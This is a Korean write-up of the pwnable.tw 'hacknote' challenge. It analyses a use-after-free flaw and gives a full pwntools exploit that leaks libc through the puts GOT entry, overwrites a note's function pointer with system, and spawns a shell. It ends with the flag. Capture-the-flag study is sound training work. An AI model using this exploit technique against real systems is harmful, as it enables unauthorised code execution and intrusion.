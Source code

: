 ```yaml
---
layout: post
title: "[pwnable.tw] hacknote 풀이"
date: 2018-08-01 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```


>## hacknote [200 pts]
### A good Hacker should always take good notes!
### `nc chall.pwnable.tw 10102`
### [hacknote](https://pwnable.tw/static/chall/hacknote)
### [libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/hacknote/01.png)
{: refdef}

평범평범

{: refdef: style="text-align: center;"}
![main](/img/pwnable.tw/hacknote/02.png)
{: refdef}

UAF!

{: refdef: style="text-align: center;"}
![func_alloc](/img/pwnable.tw/hacknote/03.png)
{: refdef}

우선 `func_add`를 보면 특이하게 `puts_next`라는 함수를 청크에 넣어주네요.

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/04.png)
{: refdef}

`puts`의 인자가 특이하네요. 아마 `func_print`에서 쓰려고 넣어둔거 같아요.

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/05.png)
{: refdef}

`func_delete`는 별거 없고 `func_print`를 보면 `(*note_list[v1])(note_list[v1])`으로 위에서 본 `puts_next`를 사용해서 출력하네요.

- - -
# 0x01. 취약점 증명

우선 `UAF`가 잘 되는지 봐야하니까 대충 아무 값이나 넣어서 확인해 볼게요.

```python
def func_add(size, content):
	s.recvuntil("Your choice :")
	s.sendline("1")
	s.recvuntil("Note size :")
	s.send(str(size))
	s.recvuntil("Content :")
	s.send(content)

def func_delete(index):
	s.recvuntil("Your choice :")
	s.sendline("2")
	s.recvuntil("Index :")
	s.send(str(index))

def func_print(index):
	s.recvuntil("Your choice :")
	s.sendline("3")
	s.recvuntil("Index :")
	s.send(str(index))
```

함수 선언

```python
func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

func_add(8, "C"*8)
func_print(0)
```

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/06.png)
{: refdef}

타란!

이제 	`puts_next`자리에 다른 함수의 주소를 넣거나 `puts_next`의 인자를 바꾸거나 등을 할 수 있어요.

- - -
# 0x02. 공격 방법

1. memory leak

2. `puts_next`대신 `system`을 넣음

3. 인자를 조절해 `system("/bin/sh")` 실행


처음엔 memory leak부터 해야해요.

그러니까 `puts_next`는 일단 가만히 두고 그 인자로 `puts_got`를 넣을게요.

```python
puts_got = elf.got["puts"]
puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

payload = p32(puts_next)
payload += p32(puts_got)

func_add(8, payload)
func_print(0)
real_puts = u32(s.recv(4))

real_base = real_puts - puts_off
real_system = real_base + system_off

print "[*] real_base : " + hex(real_base)
print "[*] real_puts : " + hex(real_puts)
print "[*] real_system : " + hex(real_system)
```

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/07.png)
{: refdef}

"/bin/sh"의 주소를 안 구하는 이유는 아까 위에서 본 함수 호출 방식 때문이에요.

`puts_next`는 `*(al+4)`를 사용해서 인자를 받아서 상관없었는데 `puts_next`대신 `system`을 넣으면 `system(real_system~~~~)` 이런식으로 실행이 되어서 "/bin/sh" 문자열의 주소가 아닌 문자열 그 자체를 넣어줘야해요.

그리고 `system(real_system;/bin/sh\0)` 이런식으로 세이콜론을 사용해서 `system("/bin/sh")`를 실행시킬거라서 12자가 넘어가요. 그러면 다른 위치로 청크를 만들어서 `UAF`가 발생하지 않아요.

그래서 "/bin/sh"대신 "sh", "dash", "bash" 등을 사용해야해요.

- - -
# 0x03. 익스플로잇

"sh"는 안돼서 "dash"로 했어요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10102

s = remote(HOST, PORT)

elf = ELF("./hacknote")
#libc = ELF("./libc-2.27.so")
libc = ELF("./libc_32.so.6")
pause()

puts_next = 0x0804862b
puts_got = elf.got["puts"]
puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

def func_add(size, content):
	s.recvuntil("Your choice :")
	s.sendline("1")
	s.recvuntil("Note size :")
	s.send(str(size))
	s.recvuntil("Content :")
	s.send(content)

def func_delete(index):
	s.recvuntil("Your choice :")
	s.sendline("2")
	s.recvuntil("Index :")
	s.send(str(index))

def func_print(index):
	s.recvuntil("Your choice :")
	s.sendline("3")
	s.recvuntil("Index :")
	s.send(str(index))

func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

payload = p32(puts_next)
payload += p32(puts_got)

func_add(8, payload)
func_print(0)
real_puts = u32(s.recv(4))

real_base = real_puts - puts_off
real_system = real_base + system_off

print "[*] real_base : " + hex(real_base)
print "[*] real_puts : " + hex(real_puts)
print "[*] real_system : " + hex(real_system)

payload = p32(real_system)
payload += ";dash"

func_delete(2)
func_add(12, payload)
func_print(0)

s.interactive()
```

### FLAG{Us3_aft3r_fl3333_in_h4ck_not3}
